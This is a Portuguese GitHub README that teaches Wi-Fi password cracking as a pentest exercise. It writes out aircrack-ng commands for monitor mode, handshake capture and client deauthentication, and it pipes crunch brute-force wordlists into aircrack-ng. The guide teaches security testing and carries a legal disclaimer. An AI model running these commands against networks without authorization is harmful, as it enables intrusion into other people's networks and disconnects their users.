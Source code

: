 # Hackeando Redes Wireless de Forma Simples

Este repositório destina-se a fornecer conhecimento e práticas para testes de penetração (pentest) em redes wireless. Aqui, detalhamos o uso das ferramentas `aircrack-ng` e `crunch` para avaliar a segurança de redes Wi-Fi.

## Estrutura do Repositório

- [`aircrack-ng/`](aircrack-ng/): Contém informações detalhadas e exemplos de uso do Aircrack-ng.
- [`crunch/`](crunch/): Contém informações detalhadas e exemplos de uso do Crunch.
- [`exemplo-redteam/`](exemplo-redteam/): Exemplos de uma operação de Red Team utilizando as ferramentas mencionadas.

## Índice

- [Introdução](#introdução)
- [Instalação das Ferramentas](#instalação-das-ferramentas)
- [Preparação do Ambiente](#preparação-do-ambiente)
- [Captura de Handshake](#captura-de-handshake)
- [Quebra de Senha com Aircrack-ng e Crunch](#quebra-de-senha-com-aircrack-ng-e-crunch)
- [Considerações Legais e Éticas](#considerações-legais-e-éticas)
- [Recursos Adicionais](#recursos-adicionais)

## Introdução

Este guia foi criado para fornecer conhecimento e práticas para realizar testes de penetração em redes Wi-Fi de forma ética e legal. As ferramentas utilizadas incluem `aircrack-ng` para captura e quebra de senhas de redes Wi-Fi, e `crunch` para geração de listas de senhas.

## Instalação das Ferramentas

### Aircrack-ng

Para instalar o Aircrack-ng em sistemas Debian/Ubuntu:

```bash
sudo apt-get install aircrack-ng
```

Mais detalhes podem ser encontrados na pasta [`aircrack-ng/`](aircrack-ng/README.md).

### Crunch

Para instalar o Crunch em sistemas Debian/Ubuntu:

```bash
sudo apt-get install crunch
```

Mais detalhes podem ser encontrados na pasta [`crunch/`](crunch/README.md).

## Preparação do Ambiente

1. **Habilitar Modo Monitor na Interface de Rede**

    ```bash
    sudo airmon-ng start wlan0
    ```

2. **Capturar Pacotes da Rede Alvo**

    ```bash
    sudo airodump-ng wlan0mon
    ```

    Identifique o BSSID e o canal da rede alvo.

3. **Focar na Rede Alvo e Capturar Handshake**

    ```bash
    sudo airodump-ng --bssid [BSSID] --channel [canal] --write captura wlan0mon
    ```

4. **Forçar a Reautenticação de Clientes (Opcional)**

    ```bash
    sudo aireplay-ng --deauth 10 -a [BSSID] -c [CLIENTE_MAC] wlan0mon
    ```

## Captura de Handshake

Verifique se a handshake foi capturada corretamente:

```bash
aircrack-ng captura-01.cap
```

## Quebra de Senha com Aircrack-ng e Crunch

Use o `crunch` para gerar senhas e passe-as diretamente para o `aircrack-ng` usando pipes (`|`):

```bash
crunch 8 8 abcdefghijklmnopqrstuvwxyz0123456789 | aircrack-ng -w - -b [BSSID] captura-01.cap
```

### Parâmetros do Comando

- `crunch 8 8 abcdefghijklmnopqrstuvwxyz0123456789`: Gera todas as combinações possíveis de senhas com 8 caracteres usando letras minúsculas e dígitos.
- `|`: Pipe que redireciona a saída de `crunch` para o `aircrack-ng`.
- `-w -`: Indica que `aircrack-ng` deve ler a lista de senhas da entrada padrão (stdin).
- `-b [BSSID]`: Especifica o BSSID da rede alvo.
- `captura-01.cap`: Arquivo de captura contendo a handshake.

## Considerações Legais e Éticas

O uso das ferramentas descritas neste guia deve ser restrito a redes para as quais você tem permissão explícita para realizar testes de segurança. O uso não autorizado dessas ferramentas é ilegal e antiético. Sempre obtenha permissão antes de realizar qualquer teste de penetração.

## Recursos Adicionais

- [Documentação do Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=getting_started)
- [Documentação do Crunch](https://tools.kali.org/password-attacks/crunch)

---

Este guia foi criado para fornecer conhecimento e práticas para realizar testes de penetração em redes Wi-Fi de forma ética e legal. Se tiver dúvidas ou sugestões, sinta-se à vontade para contribuir com este repositório.
